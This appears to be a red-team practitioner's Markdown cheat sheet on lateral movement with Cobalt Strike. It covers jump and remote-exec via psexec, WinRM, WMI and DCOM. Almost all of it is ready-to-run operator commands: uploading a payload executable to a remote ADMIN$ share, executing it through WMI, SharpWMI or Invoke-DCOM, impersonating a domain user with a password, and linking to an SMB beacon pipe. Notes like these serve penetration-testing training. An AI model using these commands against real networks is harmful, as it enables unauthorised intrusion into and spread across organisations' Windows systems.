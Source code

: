 # Lateral Movement Notes

## Jump

The first and most convenient is to use the built-in jump command - the syntax is jump [method] [target] [listener].  Type jump to see a list of methods.  

```
jump
```

list of them 
1. psexec
2. psexec64
3. psexec_psh
4. winrm
5. winrm64

## Remote-Exec

Built-in tool with CS
```
remote-exec
```
Options
1. psexec
2. winrm
3. wmi

Can als0 run SeatBelt remotely to check the systems before jumping to them

```
execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe OSInfo -ComputerName=web
```

## Windows Remote management

winrm or winrm64

```
jump winrm64 <domain> smb
```

## Psexec

psexec or psexec64, or psexec_psh which doesn't put a binary but instead executes a powershell oneliner
```
jump psexec64 <domain> smb
jump psexec_psh <domain> smb
```


## WMI

upload a payload to the target system and use WMI to execute it
```
cd \\OtherComputer\ADMIN$
upload C:\payloads\smb_exe64.exe
remote-exec wmi <OtherComputer> C:\Windows\smb_x64.exe
```
Now connect to it
```
link <OtherComputer> TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```

## CoInitializeSecurity

If this fails
```
make_token DOMAIN\User <pass>
remote-exec wmi <OtherComputer> C:\Windows\smb_x64.exe
```

Try executing from a different process
```
execute-assembly C:\Tools\SharpWMI\SharpWMI\bin\Release\SharpWMI.exe action=exec computername=<OtherComputer> command="C:\Windows\smb_x64.exe"
```

## DCOM

Utilizing [Invoke-DCOM](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1)

```
powershell-import C:\Tools\Invoke-DCOM.ps1
powershell Invoke-DCOM -ComputerName <OtherComputer> -Method MMC20.Application -Command C:\Windows\smb_x64.exe
link <OtherComputer> TSVCPIPE-81180acb-0512-44d7-81fd-fbfea25fff10
```
